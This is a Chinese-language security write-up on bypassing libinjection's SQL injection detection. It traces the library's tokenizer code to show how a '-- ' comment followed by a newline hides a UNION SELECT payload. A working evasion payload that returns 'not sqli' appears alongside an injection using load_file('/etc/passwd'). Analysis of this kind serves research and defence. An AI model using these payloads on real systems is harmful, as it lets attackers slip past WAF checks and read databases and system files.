

Libinjection 语义分析通用绕过
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

源码下载地址 `https://github.com/client9/libinjection`

> example.c

    #include <stdio.h>
    #include <strings.h>
    #include <errno.h>
    #include "libinjection.h"
    #include "libinjection_sqli.h"

    int main(int argc, const char* argv[])
    {
        struct libinjection_sqli_state state;
        int issqli;

        const char* input = argv[1];
        size_t slen = strlen(input);

        /* in real-world, you would url-decode the input, etc */

        libinjection_sqli_init(&state, input, slen, FLAG_NONE);
        issqli = libinjection_is_sqli(&state);
        if (issqli) {
            fprintf(stderr, "sqli detected with fingerprint of '%s'\n", state.fingerprint);
        }
        return issqli;
    }
    $ gcc -Wall -Wextra examples.c libinjection_sqli.c
    $ ./a.out "-1' and 1=1 union/* foo */select load_file('/etc/passwd')--"
    sqli detected with fingerprint of 's&1UE'

**首先给一个pyload**

    # ./bin "ad1n'-- %a%0aunion select 1,database(),user() -- " 
    not sqli 
    #

测试payload 是否OK

为什么会这样呢???

首先打开源码吧

如果对这个语义分析不太了解的吧，可以去百度上可以找到很多分析的文章这里就不过多阐述了

下图是一个运行的一个流程图

### 它内部分为四种模式

    1. 无符号 标准SQL 模式 
    2. 无符号 MySQL模式 
    3. 单引号 标准SQL 模式 
    4. 单引号 MySQL 模式 
    5. 双引号 MySQL 模式

然后上面是一个单引号的标准SQL 的匹配他的一个核心点在于如下 函数libinjection\_sqli\_tokenize
作为一个转换内部字符的一个入口

    int libinjection_sqli_tokenize(struct libinjection_sqli_state * sf)
    {
        pt2Function fnptr;
        size_t *pos = &sf->pos;
        stoken_t *current = sf->current;
        const char *s = sf->s;
        const size_t slen = sf->slen;
        if (slen == 0) {
            return FALSE;
        }
    ​
        //初始化
        st_clear(current);
        sf->current = current;
    ​
        if (*pos == 0 && (sf->flags & (FLAG_QUOTE_SINGLE | FLAG_QUOTE_DOUBLE))) {
            *pos = parse_string_core(s, slen, 0, current, flag2delim(sf->flags), 0);
            printf("单引号双引号进入");
            sf->stats_tokens += 1;
            return TRUE;
        }
    ​
        while (*pos < slen) {
    ​
            /*
             * get current character
             */
            const unsigned char ch = (unsigned char) (s[*pos]);
            /*
             * look up the parser, and call it
             *
             * Porting Note: this is mapping of char to function
             *   charparsers[ch]()
             */
            fnptr = char_parse_map[ch];
            *pos = (*fnptr) (sf);
            if (current->type != CHAR_NULL) {
                sf->stats_tokens += 1;
                return TRUE;
            }
        }
        return FALSE;
    }

为什么`# "ad1n'-- %a%0aunion select 1,database(),user() -- "`
这么一个简单的可以绕过呢。

首先他是吧 `admi'` 先进入无符号的标准SQL 然后发现有一个\' 后面就转到
单引号的标准SQL

单引号标准SQL 首先获取的`admn'` 然后break

继续到了下一层碰到了一个 - 那么走到parse\_dash函数中

    static size_t parse_dash(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
    ​
        if (pos + 2 < slen && cs[pos + 1] == '-' && char_is_white(cs[pos+2]) ) {
            return parse_eol_comment(sf);
        } else if (pos +2 == slen && cs[pos + 1] == '-') {
            return parse_eol_comment(sf);
        } else if (pos + 1 < slen && cs[pos + 1] == '-' && (sf->flags & FLAG_SQL_ANSI)) {
            sf->stats_comment_ddx += 1;
            return parse_eol_comment(sf);
        } else {
            st_assign_char(sf->current, TYPE_OPERATOR, pos, 1, '-');
            return pos + 1;
        }
    }

然后当前的pos 一定是符合第一个判断条件的。继续跟踪parse\_eol\_comment
函数

    static size_t parse_eol_comment(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
        
        const char *endpos =(const char *) memchr((const void *) (cs + pos), '\n', slen - pos);
        if (endpos == NULL) {
            st_assign(sf->current, TYPE_COMMENT, pos, slen - pos, cs + pos);
            return slen;
        } else {
            st_assign(sf->current, TYPE_COMMENT, pos, (size_t)(endpos - cs) - pos, cs + pos);
            return (size_t)((endpos - cs) + 1);
        }
    }

这里只是判断了是否是有\\n 这个。然后就直接进入到st\_assign
函数中。继续跟踪st\_assign 函数

    static void st_assign(stoken_t * st, const char stype,size_t pos, size_t len, const char* value)
    {
        const size_t MSIZE = LIBINJECTION_SQLI_TOKEN_SIZE;
        size_t last = len < MSIZE ? len : (MSIZE - 1);
        st->type = (char) stype;
        st->pos = pos;
        st->len = last;
        memcpy(st->val, value, last);
        st->val[last] = CHAR_NULL;
    }

当前函数也是只是赋值了一下val然后就可以做任何操作。

最后就是 `admin'` 转换成了S

\-- 因为没有查询到直接是C

最后得到的匹配规则为SC 。此匹配规则不在数据库中。完成了绕过。

附一张调试打印图

